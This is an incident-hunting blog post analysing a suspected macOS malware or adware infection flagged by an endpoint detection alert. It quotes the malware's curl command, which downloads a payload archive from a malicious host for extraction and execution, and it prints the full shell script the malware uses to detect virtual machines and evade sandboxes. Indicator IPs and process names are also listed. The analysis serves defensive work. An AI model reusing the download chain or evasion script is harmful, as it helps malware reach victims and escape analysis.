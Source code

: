 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
mermaid: true
---
```


Today we investigate some strange discovery actions by processes on a macbook

## The Alert

In the essence this alert was showing multiple different processes doing very similar actions, for the sake of simplicity we will focus on one.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain as it is part of the OS (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes, for example:

```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/451CEB63-C438-40C3-899F-0BE4F425F074
```

apadecoded itself looks already strange enough and is also found on VT, but what is this "451CEB63-C438-40C3-899F-0BE4F425F074"?
here again, for simplicity I focus on one of these odd looking processes, there are a bucket load of them.

This executable runs a download via curl of some additional code from [external](https://www.virustotal.com/gui/url/602823beeb1e3e8c4b09c1c4defeb5c6381620e6a6b9be9c3120df12c21c0f0e) and extracts it to "/private/var/tmp/helpexecd/helpexecd"

```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```

After that the archive helpexecd.tgz is extracted to /var/tmp/helpexecd/ and executed.
This new process helpexecd then runs the following command (amongst other things)
```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){ ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){(($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){ local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${VM_LIST}"||echo "${ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){ ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${VM_LIST}";};is_hw_data_vm(){ system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${VM_LIST}";};is_vm(){ is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){ is_vm&&echo 1||echo 0;};main "${@}"'
```

On closer inspection and a bit of unwrapping, it looks a lot like this helpexecd is trying to figure out if it's running in a sandbox.
It checks for what hardware it's running on, good indication of sandbox evasion.

```bash
/bin/sh -c 'readonly VM_LIST="VirtualBox\|Oracle\|VMware\|Parallels\|qemu";is_hwmodel_vm(){
 ! sysctl -n hw.model|grep "Mac">/dev/null;};is_ram_vm(){
    (($(($(sysctl -n hw.memsize)/ 1073741824))<4));};is_ped_vm(){
 local -r ped=$(ioreg -rd1 -c IOPlatformExpertDevice);echo "${
    ped}"|grep -e "board-id" -e "product-name" -e "model"|grep -qi "${
    VM_LIST}"||echo "${
    ped}"|grep "manufacturer"|grep -v "Apple">/dev/null;};is_vendor_name_vm(){
 ioreg -l|grep -e "Manufacturer" -e "Vendor Name"|grep -qi "${
    VM_LIST}";};is_hw_data_vm(){
 system_profiler SPHardwareDataType 2>&1 /dev/null|grep -e "Model Identifier"|grep -qi "${
    VM_LIST}";};is_vm(){
 is_hwmodel_vm||is_ram_vm||is_ped_vm||is_vendor_name_vm||is_hw_data_vm;};main(){
 is_vm&&echo 1||echo 0;};main "${
    @}"'
```

## Flowchart
```mermaid
flowchart TD
  kernel_task --> launchd
  launchd --> xpcproxy
  xpcproxy --> |run| apadecoded
  apadecoded --> 451CEB63-C438-40C3-899F-0BE4F425F074
  apadecoded --> |run| DFBDC5FD-3F69-472A-832B-C8C394560BC4
  apadecoded --> AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09
  451CEB63-C438-40C3-899F-0BE4F425F074 --> curl
  DFBDC5FD-3F69-472A-832B-C8C394560BC4 --> |run| curl
  AF0DBE7E-0247-4D2C-8D8D-36BDB5C5EF09 --> curl
  curl --> cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz
  cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.142
  cdn.eniqdix.icu/static/s3/exec6625/helpexecd.tgz --> |download| 89.187.162.134
  89.187.162.142 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz
  89.187.162.134 --> |download| /private/var/tmp/helpexecd/helpexecd.tgz
  /private/var/tmp/helpexecd/helpexecd.tgz --> |extract && run| helpexecd
  helpexecd --> 35.160.226.50
  helpexecd --> 34.217.226.241
  style apadecoded stroke-dasharray: 88.5 44
  style helpexecd stroke-dasharray: 88.5 44
```

## Hunting deeper

We have so far focused on one process, but here is a list of a lot more of them.
All of them do the exact same things, which really makes me think that his could be real malware, how exciting.

* canonistical
* noble
* odontolite
* intrinsicalness
* TestDate
* SysUpdater
* leam
* recommitment
* TestDateDaemon
* apadecode
* apadecoded

I now turned to Virustotal to see what they have to say about this.
Once again with focus on one process [apadecoded](https://www.virustotal.com/gui/file/ec791335020a61a36263de7671ab9741d9212cc4692c85abca81862e0daaf82c)
on VT I get a lot of Adware chatter, which in my opinion of course could be true. But some also classify this as outright malware.
It is always difficult to know when to stop an investigation, I would love to analyse this more in a sandbox, but since we usually only have Windows Sandboxes, and I have no patience to build a mac one, let's stop this here.
I think we have enough indicators anyway

## Verdict

| Indicator                                                                   | Thoughts                                                           | Verdict |
|-----------------------------------------------------------------------------|--------------------------------------------------------------------|---------|
| Process starts strangely named Processes                                    | Maybe a kind of obfuscation?                                       | +20%    |
| "Obfuscated" process downloads additional code                              | Very likely bad behaviour                                          | +20%    |
| Newly downloaded code is checks hardware it is running on (sandbox evasion) | Sandbox evasion is often a bad sign                                | +20%    |
| Many processes doing exactly the same                                       | Once again, this looks like something done to confuse the defender | +20%    |
| Virustotal results in Adware or Malware                                     | Honestly, it could be Adware, but I will treat as Malware          | +20%    |

**Verdict: True Positive**

## Next Steps
Reinstall that machine, no patience for cleaning such a mess
